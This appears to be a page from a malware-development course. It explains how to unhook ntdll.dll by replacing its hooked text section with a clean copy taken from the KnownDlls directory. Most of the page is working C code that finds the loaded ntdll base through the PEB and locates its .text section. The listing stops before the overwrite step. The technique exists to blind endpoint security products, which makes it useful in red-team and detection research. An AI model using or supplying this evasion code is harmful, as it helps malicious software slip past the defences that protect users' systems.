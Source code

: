 Now that an unhooked version of `ntdll.dll` has been loaded into the process's memory, the `ReplaceNtdllTxtSection` function shown in the previous module will be used to replace the text section of the hooked `ntdll.dll` with the newly unhooked one. The only difference is that the `pUnhookedNtdll` parameter now contains the base address of the NTDLL module fetched from the KnownDlls directory, rather than from disk.

Note that the text section of the KnownDlls `ntdll.dll` has an offset of `IMAGE_SECTION_HEADER.VirtualAddress` (4096), which explains the usage of `pSectionHeader[i].VirtualAddress` to retrieve the address of the text section (`pRemoteNtdllTxt`) in the code below.


```
PVOID FetchLocalNtdllBaseAddress() {

#ifdef _WIN64
	PPEB pPeb = (PPEB)__readgsqword(0x60);
#elif _WIN32
	PPEB pPeb = (PPEB)__readfsdword(0x30);
#endif // _WIN64// Reaching to the 'ntdll.dll' module directly (we know its the 2nd image after 'KnownDllUnhooking.exe')
	// 0x10 is = sizeof(LIST_ENTRY)
	PLDR_DATA_TABLE_ENTRY pLdr = (PLDR_DATA_TABLE_ENTRY)((PBYTE)pPeb->Ldr->InMemoryOrderModuleList.Flink->Flink - 0x10);

	return pLdr->DllBase;
}


BOOL ReplaceNtdllTxtSection(IN PVOID pUnhookedNtdll) {

	PVOID               pLocalNtdll     = (PVOID)FetchLocalNtdllBaseAddress();

	// getting the dos header
	PIMAGE_DOS_HEADER   pLocalDosHdr    = (PIMAGE_DOS_HEADER)pLocalNtdll;
	if (pLocalDosHdr && pLocalDosHdr->e_magic != IMAGE_DOS_SIGNATURE)
		return FALSE;

	// getting the nt headers
	PIMAGE_NT_HEADERS   pLocalNtHdrs     = (PIMAGE_NT_HEADERS)((PBYTE)pLocalNtdll + pLocalDosHdr->e_lfanew);
	if (pLocalNtHdrs->Signature != IMAGE_NT_SIGNATURE)
		return FALSE;


	PVOID		pLocalNtdllTxt	= NULL,	// local hooked text section base address
			    pRemoteNtdllTxt  = NULL; // the unhooked text section base address
	SIZE_T		sNtdllTxtSize	= NULL;	// the size of the text section


	// getting the text section
	PIMAGE_SECTION_HEADER pSectionHeader = IMAGE_FIRST_SECTION(pLocalNtHdrs);

	for (int i = 0; i < pLocalNtHdrs->FileHeader.NumberOfSections; i++) {

		// the same as if( strcmp(pSectionHeader[i].Name, ".text") == 0 )
		if ((*(ULONG*)pSectionHeader[i].Name | 0x20202020) == 'xet.') {
			pLocalNtdllTxt	= (PVOID)((ULONG_PTR)pLocalNtdll + pSectionHeader[i].VirtualAddress);
			pRemoteNtdllTxt	= (PVOID)((ULONG_PTR)pUnhookedNtdll + pSectionHeader[i].VirtualAddress);
			sNtdllTxtSize	= pSectionHeader[i].Misc.VirtualSize;
			break;
		}
	}

```
